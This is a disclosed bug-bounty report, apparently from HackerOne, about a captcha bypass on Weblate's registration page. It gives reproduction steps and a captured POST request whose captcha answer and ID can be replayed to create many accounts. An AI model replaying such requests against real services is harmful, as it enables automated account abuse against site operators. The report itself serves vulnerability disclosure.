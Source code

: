 # Registration captcha bypass

## Report Details
- **Report ID**: 223324
- **URL**: https://hackerone.com/reports/223324
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-04-24T08:57:55.072Z
- **Disclosed**: 2017-05-17T14:14:53.006Z

## Reporter
- **Username**: blacky
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: weblate

## Vulnerability Information
Hello,
I've found that it is possible to bypass captcha during registration. Attacker can automatize registration process and create multiple accounts.
Here are steps to reproduce:
1. Go to registration page. Type information and catch request in proxy.
2. Get correct answer for captcha and captcha ID. Here is mine:

```
POST /accounts/register/ HTTP/1.1
Host: demo.weblate.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://demo.weblate.org/
Cookie: csrftoken=m4egNuG72ZPay6HeEqmftrXti70UfoG2AIlbxXrKv6sW1yrSeFp2AcLucZxM1lfh; sessionid=1yefwddt15j1a1weo6dsk0znqrywvkbu; translate-tab=#suggestions
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 238

csrfmiddlewaretoken=efTfFdHlGlDFdHOuDFKRsLyINeABdaN0sT0apGsY9sgrG9y8dUNEzwmJH67tZ7mf&email=[erased]&content=&username=[erased]&first_name=test&captcha=16&captcha_id=c5c64ac6daee6cf44dce40660879085db4f352e90058fdbb0bOCAqIDI%3D
```

.3. Now attacker can use captcha answer and captcha ID to correctly register multiple times.

I tried to register once more using this captcha answer and captcha ID and it worked.

## Attachments
No attachments
